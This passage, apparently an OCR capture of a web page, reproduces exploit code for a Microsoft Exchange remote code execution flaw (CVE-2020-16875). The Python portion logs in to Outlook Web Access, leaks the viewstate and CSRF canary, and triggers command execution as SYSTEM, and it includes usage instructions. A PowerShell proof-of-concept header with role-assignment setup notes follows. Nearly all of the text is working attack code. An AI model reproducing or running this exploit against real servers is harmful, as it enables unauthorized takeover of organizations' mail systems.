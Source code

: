 ```angular2
    assert match != None, "(-) couldn't leak the __viewstate!"
    return match.group(1)
    
def log_in(t, usr, pwd):
    s = requests.Session()
    d = {
        "destination" : "https://%s/owa" % t,
        "flags" : "",
        "username" : usr,
        "password" : pwd
    }
    s.post("https://%s/owa/auth.owa" % t, data=d, verify=False)
    assert s.cookies.get(name='X-OWA-CANARY') != None, "(-) couldn't leak the csrf canary!"
    return s

def main(t, usr, pwd, cmd):
    s = log_in(t, usr, pwd)
    print("(+) logged in as %s" % usr)
    vs = leak_viewstate(t, s)
    print("(+) found the __viewstate: %s" % vs)
    trigger_rce(t, s, vs, cmd)
    print("(+) executed %s as SYSTEM!" % cmd)

if __name__ == '__main__':
    if len(sys.argv) != 4:
        print("(+) usage: %s <target> <user:pass> <cmd>" % sys.argv[0])
        print("(+) eg: %s 192.168.75.142 harrym@exchangedemo.com:user123### mspaint" % sys.argv[0])
        sys.exit(-1)
    trgt = sys.argv[1]
    assert ":" in sys.argv[2], "(-) you need a user and password!"
    usr = sys.argv[2].split(":")[0]
    pwd = sys.argv[2].split(":")[1]
    cmd = sys.argv[3]
    main(trgt, usr, pwd, cmd)
```
>
> `https://srcincite.io/pocs/cve-2020-16875.ps1.txt`
>
```angular2
# Microsoft Exchange Server DlpUtils AddTenantDlpPolicy Remote Code Execution Vulnerability
# Patch: https://portal.msrc.microsoft.com/en-us/security-guidance/advisory/CVE-2020-16875
#
# Notes:
#
# The (ab)user needs the "Data Loss Prevention" role assigned
# [PS] C:\Windows\system32>New-RoleGroup -Name "dlp users" -Roles "Data Loss Prevention" -Members "harrym"
# 
# Name      AssignedRoles          RoleAssignments                  ManagedBy
# ----      -------------          ---------------                  ---------
# dlp users {Data Loss Prevention} {Data Loss Prevention-dlp users} {exchangedemo.com/Microsoft Exchange Security Groups/Organization Management, exchangedemo.com/Users/test}
# 
# 
# [PS] C:\Windows\system32>Get-RoleGroup "dlp users" | Format-List
# 
# RunspaceId                  : 098e1140-30e3-4144-8028-2174fdb43b85
# ManagedBy                   : {exchangedemo.com/Microsoft Exchange Security Groups/Organization Management, exchangedemo.com/Users/test}
# RoleAssignments             : {Data Loss Prevention-dlp users}
# Roles                       : {Data Loss Prevention}
# DisplayName                 :
# ExternalDirectoryObjectId   :
```